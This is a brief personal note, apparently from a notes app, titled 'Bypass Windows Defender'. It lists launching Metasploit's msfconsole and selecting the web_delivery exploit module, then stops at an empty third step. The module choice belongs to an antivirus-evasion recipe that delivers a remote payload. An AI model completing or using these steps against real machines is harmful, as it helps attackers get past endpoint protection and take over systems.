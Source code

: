 ```yaml
---
title: Bypass Windows Defender
updated: 2023-10-11 07:04:12Z
created: 2023-10-11 07:03:34Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


1. `msfconsole`
2. `use exploit/multi/script/web_delivery`
3. 